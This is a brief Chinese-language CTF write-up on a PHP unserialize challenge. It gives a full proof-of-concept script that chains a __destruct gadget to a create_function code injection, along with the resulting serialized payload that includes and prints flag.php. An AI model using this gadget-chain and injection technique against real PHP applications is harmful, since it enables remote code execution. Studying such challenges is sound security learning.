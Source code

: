 这一关有两个类，func类的key在反序列化时会自动反序列化，所以先反序列化func类，然后将func类的key赋值为GetFlag类的get_flag方法，而且里面有个动态函数执行可以create_funtion函数来进行执行后面部分的代码，具体的poc如下：





```php
<?php
highlight_file(__FILE__);
class func
{
    public $key;
    public function __destruct()
    {
        unserialize($this->key)();
    }
}

class GetFlag
{
    public $code;
    public $action;
    public function get_flag(){
        $a=$this->action;
        $a('', $this->code);
    }
}
$a1=new func();
$b=new GetFlag();
$b->code='}include("flag.php");echo $flag;//';
$b->action="create_function";
$a1->key=serialize(array($b,"get_flag"));
echo serialize($a1);
//O:4:"func":1:{s:3:"key";s:136:"a:2:{i:0;O:7:"GetFlag":2:{s:4:"code";s:34:"}include("flag.php");echo $flag;//";s:6:"action";s:15:"create_function";}i:1;s:8:"get_flag";}";}
?>
```

![img](assets/1654514388121-ac5a8d90-fc59-4f94-ab50-dd5c528a0545.png)
